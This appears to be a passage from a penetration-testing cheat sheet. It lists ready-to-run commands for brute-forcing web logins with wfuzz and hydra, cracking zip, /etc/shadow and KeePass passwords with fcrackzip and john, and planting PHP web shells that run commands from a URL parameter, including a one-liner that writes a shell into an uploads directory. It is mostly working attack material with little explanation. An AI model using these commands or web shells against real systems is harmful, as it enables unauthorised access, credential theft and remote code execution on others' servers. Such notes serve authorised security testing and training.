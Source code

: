 - read the exploit properly in case this makes changes in the shellcode

- capture traffic with wireshark making sure the entire shellcode is transmited

- run the exploit several times

- make sure the JMP ESP matches OS and language


<a name="weakcreds"></a><h3> Weak Credentials </h3>


<a name="httpbrute"></a><b> HTTP Brute Force </b>

- wfuzz POST

```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```

- hydra POST

```hydra 192.168.30.161 -s 80 http-form-post "/admin/index.php:user=^USER^&password=^PASS^:Moved Temporarily" -l admin -P /root/Documents/SecLists/Passwords/korelogic-password.txt -t 20```

- wfuzz NTLM

```wfuzz -c --ntlm "admin:FUZZ" -z file,/root/Documents/SecLists/Passwords/darkc0de.txt --hc 401 https://<ip>/api```

- wfuzz Basic Auth through Proxy

```wfuzz -c --hc 404,400,401 -z file,/root/Documents/Audits/ActivosProduban/names.txt -z file,/root/Documents/Audits/ActivosProduban/names.txt --basic "FUZZ:FUZ2Z" -p 127.0.0.1:8080 https://<ip>/api/v1/```


<a name="passcrack"></a><b> Password Cracking </b>

- zip

`fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file.zip `

- /etc/shadow

<pre>
unshadow passwd shadow > passwords
john --wordlist=/usr/share/wordlists/rockyou.txt passwords
</pre>

- keepass 

<pre>
keepass2john /root/Desktop/NewDatabase.kdb > file
john -incremental:alpha -format=keepass file
</pre>


<a name="rce"></a><h2> RCE </h2>

<a name="phprce"></a><h3>PHP RCE</h3>

test: 

```<?php phpinfo(); ?>```

simple shell: 

```<?php system($_GET["c"]); ?>```

```<?php `$_GET["c"]`; ?>```

file upload:

```<?php file_put_contents('/var/www/html/uploads/test.php', '<?php system($_GET["c"]);?>'); ?>```
```